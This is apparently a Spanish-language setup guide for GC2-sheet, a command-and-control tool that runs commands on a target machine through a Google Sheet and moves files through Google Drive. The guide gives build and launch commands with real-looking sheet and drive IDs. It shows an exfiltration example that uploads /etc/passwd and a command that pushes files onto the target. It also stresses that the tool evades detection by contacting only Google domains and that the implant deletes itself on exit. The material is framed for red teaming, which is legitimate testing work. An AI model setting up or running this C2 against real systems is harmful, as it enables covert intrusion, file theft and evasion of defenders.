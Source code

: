 # Instalación de C2 - G2C2

![image](https://user-images.githubusercontent.com/50930193/179373047-c649bdcf-7747-4743-80e4-a34b0b38de48.png)

GC2 (Comando y Control de Google) es una aplicación de Comando y Control que permite a un atacante ejecutar comandos en la máquina de destino usando Google Sheet y extrae datos usando Google Drive.

Este programa ha sido desarrollado para proporcionar un comando y control que no requiere ninguna configuración particular (como: un dominio personalizado, VPS, CDN, ...) durante las actividades de Red Teaming.

Además, el programa interactuará únicamente con los dominios de Google (*.google.com) para dificultar la detección.

# Configuración

## 1. Generar ejecutables
 
    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    go build gc2-sheet.go
    ```

## 2. Crear una nueva "cuenta de servicio" de Google**

Cree una nueva "cuenta de servicio" de Google usando la consola de Google (https://console.cloud.google.com/), para ello siga los pasos siguientes:

Buscar "CREAR UN PROYECTO" y elegir esta opción 
<br/>
![image](https://user-images.githubusercontent.com/50930193/179372995-3303b02c-5c29-43d1-b020-5f14d1300a45.png)
<br/>
llenar la información solicitada en el proyecto:
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373059-1133b5ee-3181-49b4-8def-41c2ceb201af.png)
<br/>
Una vez creado el proyecto ir a la "Configuración del proyecto"
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373625-29ed9e5d-577f-4be9-95ea-8bb8acce3869.png)
<br/>
Y luego a "Cuentas de servicio" 
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373658-068d7080-ac84-4f54-920f-a8c9fd4a05bd.png)
<br/>
Para luego llenar el formulario par crear la cuenta
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373723-5ddc947c-2a0b-426e-8593-2776695321dd.png)
<br/>
Asignar el rol de propietario
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373736-0619bbbc-172c-4e38-8ee9-29e8c96b7112.png)
<br/>
Seleccionar la nueva cuenta de servicio creada
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373794-308da813-91a7-40f4-8f12-27e5535a6430.png)
<br/>
Crear las llaves para la cuenta de servicio
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373809-38b0e243-1994-4f50-8ced-230ed56864ef.png)
<br/>
Seleccione "Crear clave nueva"
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373835-55562aa7-4e88-4799-82b5-baba0c36215d.png)
<br/>
y luego en el popup elija que el tipo de clave sea JSON y luego elija "CREAR"
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373876-c3188f31-0731-43c7-b393-19658966881e.png)
<br/>
Se deberá haber creado la clave en formato JSON y descargado al disco
<br/>
![image](https://user-images.githubusercontent.com/50930193/179373857-82a03639-cd07-44df-bc13-d29b63562de6.png)
<br/>
Finalmente, mover el JSON descargado a la carpeta donde se encuentra el GC2 Sheet
<br/>
![image](https://user-images.githubusercontent.com/50930193/179374002-99916d33-cd03-4f23-9418-2b3e7d0f57f5.png)


## 3. Habilite la API de Google Sheet y la API de Google Drive
<br/>
Para ello  usando usando la consola de Google (https://console.cloud.google.com/).

Ahora, busque *Google Drive API* y habilite el servicio
<br/>
![image](https://user-images.githubusercontent.com/50930193/179374125-fe53647b-d024-4b69-a61d-78622b9cfd18.png)
<br/>
![image](https://user-images.githubusercontent.com/50930193/179374142-e6951503-997a-4cc4-89dc-98d2480b0857.png)
<br/>
Del mismo modo  busque *Google Sheet API* y habilite el servicio
<br/>
![image](https://user-images.githubusercontent.com/50930193/179374258-ffc62547-888c-4352-9f66-37bbbeaf2b54.png)
<br/>
![image](https://user-images.githubusercontent.com/50930193/179374272-e274d022-5953-4103-b30c-54ae26d2b042.png)
<br/>

## 4. Configurar Google Sheet y Google Drive

Cree una nueva carpeta y una hoja de cálculo de Google Drive y agregue la cuenta de servicio al grupo de editores de la hoja de cáclculo y de la carpeta.
Para agregar la cuenta de servicio use su correo electrónico. Guíese de la imagen.
<br/>
![image](https://user-images.githubusercontent.com/50930193/179374491-b643bfc7-cc5a-49ec-9a6a-943be0100e8e.png)
<br/>
## 5. Iniciar el servidor C2

Para elllo, ejecutar el comando siguiente desde Kali

```
./gc2-sheet --key <GCP service account credential file .JSON > --sheet <Google sheet ID> --drive <Google drive ID> 
```
<br/>
Y en donde los ID corresponden a los valores del URL de la carpeta y hoja de cálculo creados tal como sigue

![image](https://user-images.githubusercontent.com/50930193/179374586-b63cdb18-44fc-4486-97dd-7eb3fa0b23b7.png)
<br/>
![image](https://user-images.githubusercontent.com/50930193/179374595-09da1f81-4144-4f78-855c-f3da1c5414bd.png)

Y el GCP al archivo JSON Descargado
<br/>
![image](https://user-images.githubusercontent.com/50930193/179374661-4a68fcbe-155f-4225-8a61-a1475ec5bdf2.png)
<br/>

Finalmente el comando a ejecutar es el siguiente:

```
./gc2-sheet --key c2oseh-58099cb62f54.json --sheet 1uAxAYyQbBtaKUGCvnx_Xcfc9gRA8CFCQgnLxsNT8fcM --drive 1QQ8bLq2sSg6HwS9hM2R5JJgGzSqj2smj 
```
## Características y Flujo

1. Ejecución de comandos utilizando Google Sheet como consola
2. Descargar archivos en el objetivo usando Google Drive
3. Exfiltración de datos usando Google Drive
4. Salida

![image](https://user-images.githubusercontent.com/50930193/179385717-a55ba33a-f54e-4b40-b5d0-4f52af3d5343.png)


# Interacción con los agentes
Desde la hoja excel, cada ejecución del comando anterior generará una pestaña de hoja excel, similar al siguiente:
<br/>
![image](https://user-images.githubusercontent.com/50930193/179384549-408f6e12-8a0e-4c5a-9ebe-94dcbe0bf7f1.png)
<br/>
Ya en cada hoja lo que se puede hacer es digitar los comandos, el programa realizará una solicitud a la hoja de cálculo cada 5 segundos para verificar si hay algunos comandos nuevos. Los comandos deben insertarse en la columna "A", y la salida se imprimirá en la columna "B".

![image](https://user-images.githubusercontent.com/50930193/179384679-f79a0303-8c82-4ded-bf7f-5468863450b1.png)


#  Archivo de exfiltración de datos
Se reservan comandos especiales para realizar la carga y descarga en la máquina de destino
```
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```
 ![image](https://user-images.githubusercontent.com/50930193/179385406-08583577-a28a-41de-a441-6c0de58ef5e5.png)

# Descargar archivo
Se reservan comandos especiales para realizar la carga y descarga en la máquina de destino
```
From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
download;1bXLiPyMRhkebVoMDsyq7Ttf8UA5Ntzl0;/opt/GC2-sheet/ssrf.py
```
![image](https://user-images.githubusercontent.com/50930193/179385635-2584009d-dead-4481-b7b0-4502cf9a64e8.png)

# Salida
Al enviar el comando exit , el programa se eliminará del objetivo y eliminará su proceso.
